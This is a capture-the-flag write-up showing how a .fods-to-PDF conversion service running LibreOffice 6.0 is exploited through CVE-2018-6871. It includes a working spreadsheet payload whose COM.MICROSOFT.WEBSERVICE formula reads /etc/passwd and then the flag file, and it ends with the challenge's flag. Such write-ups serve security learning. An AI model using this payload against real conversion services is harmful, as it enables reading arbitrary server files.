




The challenge provides us with a simple web page



It only allows us to upload a `.fods` file (OpenDocument Flat XML Spreadsheet)

Uploading a simple file like the example below:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<office:document [..]>
    <office:body>
        <office:spreadsheet>
            <table:table table:name="1">
                <table:table-column/>
                <table:table-row>
                    <table:table-cell office:value-type="string" calcext:value-type="string">
                        <text:p>TEXT</text:p>
                    </table:table-cell>
                </table:table-row>
                <table:table-row></table:table-row>
            </table:table>
            <table:named-expressions/>
        </office:spreadsheet>
    </office:body>
</office:document>
```

Produces the document:



This will be used as our minimal working example later.

After attempts trying XXE (XML External Entity) attack and doing some reading I decided to actually look at the pdf produced

Downloading this `pdf` and running `exiftools` on it gives us:
```
[..]
Creator                         : Calc
Producer                        : LibreOffice 6.0
[..]
```
This shows us that the web application is converting the `.fods` file to a PDF using LibreOffice 6.0 Calc.
Doing some research on LibreOffice gives us [CVE-2018-6871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6871)

```
LibreOffice before 5.4.5 and 6.x before 6.0.1 allows 
remote attackers to read arbitrary files via =WEBSERVICE 
calls in a document, which use the COM.MICROSOFT.WEBSERVICE function.
```

Further research also provided a [proof of concept](https://github.com/jollheef/libreoffice-remote-arbitrary-file-disclosure) on GitHub. 
Stripping this proof of concepts lets us access local files using `=WEBSERVICE`, this gives us this minimal example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<office:document [..]>
 <office:body>
  <office:spreadsheet>
   <table:calculation-settings table:automatic-find-labels="false" table:use-regular-expressions="false" table:use-wildcards="true"/>
   <table:table table:name="1">
    <table:table-column table:default-cell-style-name="Default"/>
    <table:table-row>
      <table:table-cell 
          table:formula="of:=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)" 
          office:value-type="string" 
          office:string-value="" 
          calcext:value-type="string">
       <text:p>#VALUE!</text:p>
     </table:table-cell>
    </table:table-row>
    <table:table-row></table:table-row>
   </table:table>
   <table:named-expressions/>
  </office:spreadsheet>
 </office:body>
</office:document>
```

When placed in the compiler we get this output!



This is the last line of the `/etc/passwd` file and shows the arbitrary file read attack was successful. This attack is very interesting because it can be executed through normally innate files such as a spreadsheets or word documents.

Using the home directory we can see `/home/libreoffice_admin` as the users home directory. With a little trial and error the file path used was `/home/libreoffice_admin/flag`.



FLAG
```
fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}
```